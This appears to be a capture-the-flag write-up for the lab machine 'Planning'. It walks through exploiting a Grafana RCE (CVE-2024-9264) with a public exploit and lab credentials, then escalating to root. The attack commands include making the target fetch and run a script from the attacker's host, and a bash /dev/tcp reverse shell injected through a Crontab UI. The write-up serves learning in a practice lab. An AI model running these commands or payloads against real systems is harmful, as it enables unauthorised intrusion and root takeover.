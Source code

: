 # 🗂️Planning

## 🧠Summary
  > The target machine "Planning" exposes a misconfigured Grafana 11 instance on a subdomain, grafana.planning.htb, which is vulnerable to Remote Code Execution (RCE) via the SQL Expressions feature. This vulnerability, tracked as CVE-2024-9264, allows post-processing of query data using DuckDB, which fails to sanitize user-supplied SQL properly. By exploiting this flaw, we were able to gain remote command execution inside a Docker container. Further enumeration led to credential discovery and access to a Crontab UI interface hosted on port 8000. By injecting a reverse shell payload through the scheduler interface, we achieved privilege escalation and accessed the root flag.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v planning.htb
  ```
- The result of the nmap scan is ![](./screenshots/nmap_scan.png)
- The ssh and http ports are open

## 🌐Step 2 (Web enumeration)
- Did web enumeration manual and used dirsearch but found nothing useful
  ![](./screenshots/dirsearch.png)
- As a result I decided to find if any subdomain exist, used gobuster and a custom generated wordlist from chatgpt
  ```bash
  gobuster dns -d planning.htb -w /home/raihan/Documents/m_planning/wordlist.txt --no-error
  ```
  ![](./screenshots/gobuster.png)
- Here found that a subdomain grafana exist
- Entered the webpage grafana.planning.htb and found a login page and logged in using the given creds

## 📌Step 3 (Loop hole)
- Searched in web about grafana and found two important links leading to the successful pawning of this machine
- Link 1 (write up about grafana's vulnerablity) 👉 [https://grafana.com/blog/security_vulnerabity](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/)
- Link 2 (Exploit found for the CVE-2024-9264) 👉 [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)
- Downloaded the exploit code using git clone
  ```bash
  git clone https://github.com/nollium/CVE-2024-9264
  ```
- Executed the downloaded exploit and tried to dump the /etc/passwd file and found out that the output shows that it is the root of docker
- So used LinEnum.sh to escape from the docker
- After hosting LinEnum in my machine used the command
  ```bash
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://<your-ip>:<port>/LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "chmod +x LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "./LinEnum.sh" http://grafana.planning.htb
  ```
- After execution got the creds username and password
  ![](./screenshots/creds.png)

## ⚓Step 4(Foothold)
- SSH into the machine using the obtained creds
  ```bash
  ssh enzo@planning.htb
  ```
- Gained the shell and obtained the user flag
- Checked if any binary misconfig or any non password executable binary exist, but none
- Proceeded on checking each directory and found a crontab.db
- Cat the file and found a password
- Further checked if any additional proccess is happening, using
  ```bash
  netstat -tulpn
  ```
- Found it is hosting a webpage in port 8000
  ```bash
  ssh 8000:localhosts:8000 enzo@planning.htb
  ```
- Found a webpage that hosts crontab
  ![](./screenshots/crontab_web.png)
- Inserted a malicious code that connects to my machine using netcat to gain root shell
  ```bash
  /bin/bash -i >& /dev/tcp/<your ip>/<your port> 0>&1
  ```
- Gained the root shell and got the root flag 🚩
